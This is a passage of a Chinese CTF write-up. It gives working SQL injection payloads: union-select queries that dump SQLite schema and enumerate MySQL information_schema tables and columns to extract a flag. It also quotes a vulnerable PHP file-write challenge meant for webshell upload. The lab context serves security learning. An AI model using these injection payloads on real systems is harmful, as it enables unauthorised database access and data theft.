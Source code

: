 发现从第1列

ID='union select (select group_concat(sql) from sqlite_master),2,3,4,5,6,7,8,9--+

![image-20230901173804988](https://img1.imgtp.com/2023/09/03/TsAMD6Dw.png)

可以看出表名为ctf，然后查ID

select ID from ctf

将查询出来的ID输入到网页中进行GET得到flag

![image-20230901204814164](https://img1.imgtp.com/2023/09/03/BV2d934T.png)

### 类11题 简单的SQL注入

注意查询时用id=-1这种查不到的最终

```sqlite
?id=-1' union select (select group_concat(sql) from sqlite_master),2 --+
```

![image-20230902154507995](https://img1.imgtp.com/2023/09/03/KvHhB0P3.png)

最终结果利用sqlite注入语句

![image-20230902154204547](https://img1.imgtp.com/2023/09/03/OEg7nVXG.png)

### 类11题 Basic SQL(oj)

```sql
' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='news'#
```

找表

```sql
' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='f1agfl4gher3'#
```

找列

```sql
' union select 1,group_concat(h3r31sfl4g),3 from news.f1agfl4gher3 #
```

找内容   **from后加数据库.表名**

![image-20230904151153680](C:\Users\李佳艺\AppData\Roaming\Typora\typora-user-images\image-20230904151153680.png)

## 12题 (oj木马绕过)Basic PHP 2：

网站中代码如下

```php
<?php
if(isset($_GET['content'])){
  $filename = 'config.php';
  $content = $_GET['content'];

  if(is_int(stripos($content, 'php')) || is_int(stripos($content, '<'))) {
    echo 'Invalid input';
  } else {
    file_put_contents($filename, $content);
    echo 'Success';
  }
}
```


[编码网址]: https://coding.tools/cn
